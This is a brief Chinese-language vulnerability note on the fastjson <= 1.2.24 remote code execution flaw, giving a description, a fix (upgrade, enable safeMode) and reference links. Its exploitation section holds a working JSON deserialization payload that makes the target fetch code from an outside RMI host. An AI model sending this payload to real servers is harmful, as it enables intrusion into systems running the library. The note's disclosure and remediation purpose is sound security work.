

### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.24

Fastjson 1.2.25之前版本的parseObject存在安全漏洞。远程攻击者可通过发送特制的JSON请求利用该漏洞执行任意代码。


### 二 漏洞利用
使用fastjson解析: 
```
{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.198.1:5555/poc1",
        "autoCommit":true
}
```

可替换json数据为payload，或尝试直接打POST

### 三 漏洞修复
升级并开启safeMode或不用fastjson

### 四 漏洞分析


> 参考链接  
> 绿盟: http://blog.nsfocus.net/analysis-protection-fastjson-remote-code-execution-vulnerability/  
> 官方公告: https://github.com/alibaba/fastjson/wiki/security_update_20170315  
> 阿里云: https://avd.aliyun.com/detail?id=AVD-2017-18349
> 分析: https://www.cnblogs.com/huim/p/16566911.html
